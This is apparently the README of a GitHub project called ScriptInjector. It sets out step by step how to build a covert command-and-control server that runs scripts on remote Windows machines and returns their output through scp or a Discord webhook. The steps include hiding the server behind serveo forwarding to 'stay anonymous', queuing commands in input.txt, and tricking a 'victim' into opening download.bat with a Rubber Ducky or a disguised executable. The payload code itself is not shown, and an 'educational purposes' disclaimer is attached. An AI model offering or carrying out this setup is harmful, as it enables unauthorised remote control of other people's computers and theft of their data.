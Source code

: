# ScriptInjector
Inject and run scripts on remote computers and get the output back via scp or a discord webhook
For educational purposes only.

## How it works
1. Clone this repo and cd into it
    ```
    sudo apt install git -y
    git clone https://github.com/emaa10/ScriptInjector.git
    cd ScriptInjector
    git checkout New-Webhook
    ```

2. Install packages
    ```
    sudo apt install -y apache2 screen
    ```

3. Setup an apache2 webserver and put the files under `/src` into `/var/www/html/`
    ```
    sudo mv src /var/www/html
    ```

4. Generate an ssh-key to allow serveo to connect. We will use serveo for port forwarding, you can use other services if you want, too. 
    ```
    ssh-keygen -t rsa
    ```
    Press enter on all questions.
    
5. Setup serveo.net to stay anonymous
    forward port 80 (http) in a new screen session. You might be asked to verify using google.
    ```
    screen -S http ssh -R your_hostname:80:localhost:80 serveo.net
    ```

6. Adapt Setup.bat and scheduled.bat to match your chosen hostname / your public IP

7. Start serveo (or a different port forwarding service)
    - See the launch_serveo.txt file for 2 commands to forward ssh and http to your_hostname.serveo.net
    - You can use screen to start multiple serveo forwarding simultaneously

8. Create folders and the input.txt
    ```
    touch /var/www/html/input.txt
    echo "dir C:\Users" >> /var/www/html/input.txt
    sudo mkdir /mnt/income
    sudo chown www-data /mnt/income
    sudo chgrp www-data /mnt/income
    sudo chmod 777 /mnt/income
    ```

9. Get the victim to open the download.bat
    - That's your part. There are many options: Using a rubberducky script or converting the bat file into an executable.